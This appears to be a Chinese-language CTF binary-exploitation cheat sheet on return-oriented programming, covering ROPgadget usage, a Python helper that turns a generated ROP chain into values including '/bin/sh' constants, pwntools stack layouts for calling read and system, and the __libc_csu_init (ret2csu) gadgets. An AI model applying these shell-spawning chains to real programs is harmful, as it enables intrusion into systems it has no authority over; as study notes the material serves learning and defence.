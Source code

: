 ## brop
http://www.scs.stanford.edu/brop/

## srop
https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439

## ROPgadget
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
 4. `ROPgadget --binary {binary_name} --ropchain`可以直接生成ROP chain，不过要转换一下
```py
rop = []
# i = 1
for line in open("ropc"):
    # print line,
    if "pack" in line and '+=' in line:
        print line
        # print i
        # print str(line).split(", ")[1].split(")")[0]
        rop.append(str(line).split(", ")[1].split(")")[0])
    if 'pack' not in line and '+=' in line:
        # print i
        # print line
        rop.append(str(line).split("+= ")[1][1:-2])
    # i += 1
i=0
while(i<len(rop)):
    if rop[i]=='/bin':
        rop[i]='0x6e69622f'
    if rop[i]=='sh':
        rop[i]='0x68732f2f'
    i+=1
print rop
```
### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;

## 通用技术
常用的栈布局如下
```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)

flat([
        gets,
        system,
        buf,
        buf
        ])
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx, 
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi, 
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```
## ret2libc
64下通用gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值
```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```